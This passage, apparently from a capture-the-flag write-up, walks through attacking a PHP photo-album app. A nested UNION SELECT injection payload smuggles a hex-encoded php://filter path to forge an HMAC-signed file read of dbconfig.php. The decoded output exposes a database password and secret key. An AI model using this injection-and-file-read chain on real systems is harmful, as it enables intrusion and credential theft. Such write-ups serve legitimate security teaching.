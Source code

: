 ```jsx
    // Display the album id
    echo "<!-- Short tag: " . $_GET['short_tag'] . " - Album ID: " . $id . "-->\n";
    // Display images in a grid
    echo '<div class="grid-container">' . "\n";
    foreach ($stmt_path as $row) {
        // Get the image ID
        $path = $row["path"];
        $hash = hash_hmac('sha256', $path, $SECRET_KEY);

        // Create link to image.php with image ID
        echo '<div class="image-container">' . "\n";
        echo '<a href="/image.php?hash='. $hash . '&path=' . $path . '">';
        echo '<img src="/image.php?hash='. $hash . '&path=' . $path . '" alt="Image path: ' . $path . '">';
...
```

## Reading the source code of `album.php`, we see that the application calculates hashes using HMAC-SHA256:

```jsx
$hash = hash_hmac('sha256', $path, $SECRET_KEY);
```

However, the `SECRET_KEY` is not defined inside `album.php` — instead, it includes `dbconfig.php`, so it is most likely that the key is defined there.

To retrieve dbconfig.php, we repeat the same method: hex-encode the path and create another payload:

This allows us to fetch the hash for `php://filter/convert.base64-encode/resource=dbconfig.php`.

```jsx
jxf' UNION SELECT "0 UNION SELECT 1,2,0x7068703a2f2f66696c7465722f636f6e766572742e6261736536342d656e636f64652f7265736f757263653d6462636f6e6669672e706870-- -"-- -
```

```jsx
└─$ cat dbconfig.php 
PD9waHAKLy8gRGF0YWJhc2UgY29ubmVjdGlvbiBzZXR0aW5ncwokc2VydmVybmFtZSA9ICJkYiI7CiR1c2VybmFtZSA9ICJ3ZWIiOwokcGFzc3dvcmQgPSAiVEFKbkY2WXVJb3Q4M1gzZyI7CiRkYm5hbWUgPSAid2ViIjsKCgokU0VDUkVUX0tFWT0nYW44aDZvVGxOQjlOMEhOY0pNUFlKV3lwUFIyNzg2SVE0STN3b1BBMUJxb0o3aHpJUzBxUVdpMkVLbUp2QWdPVyc7Cj8+                                                                    
┌──(neo㉿neo)-[~/pro/m]
┌──(neo㉿neo)-[~/pro/m]
└─$ cat dbconfig.php | base64 -d
<?php
// Database connection settings
$servername = "db";
$username = "web";
$password = "TAJnF6YuIot83X3g";
$dbname = "web";

$SECRET_KEY='an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW';
?>                                                                    

```
